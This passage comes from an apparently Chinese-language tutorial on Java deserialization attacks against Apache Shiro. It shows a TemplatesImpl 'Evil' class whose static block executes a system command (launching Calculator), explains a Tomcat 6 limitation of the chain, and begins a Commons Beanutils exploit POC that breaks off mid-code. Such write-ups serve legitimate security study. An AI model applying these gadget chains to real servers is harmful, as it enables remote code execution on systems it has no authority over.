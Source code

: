 ```java
```

Evil类定义为：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Evil extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

注意：其实TemplatesImpl的利用方式中还是存在数组形式的，byte[]数组用于存储evil class。但是在tomcat 7及以上的环境下，java的原生数据类型的数组还原不影响反序列化，只针对对象级别的数组还原。而tomcat6的实现方式直接不允许数组类型的还原，也就是说该利用链在tomcat6的环境下是成功不了的。

## Shiro无依赖利用链

当然上面的利用是建立在目标环境配置了CC的前提下的（P神的环境中在pom.xml中配置了CC依赖），如果目标环境只配置了Shiro，我们是否还有无其他依赖的利用链来实现代码执行呢，答案自然是有的，原因就是Shiro默认安装了Commons Beanutils，而我们之前学习过Commons Beanutils是存在反序列化利用链的。

那么问题来了，直接使用之前的CB链的POC进行攻击可以成功吗？答案是不能的。

原因是因为我们之前的POC中：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import javax.xml.transform.TransformerConfigurationException;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class main {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, TransformerConfigurationException, InvocationTargetException, NoSuchMethodException, ClassNotFoundException {
        TemplatesImpl template = new TemplatesImpl();
```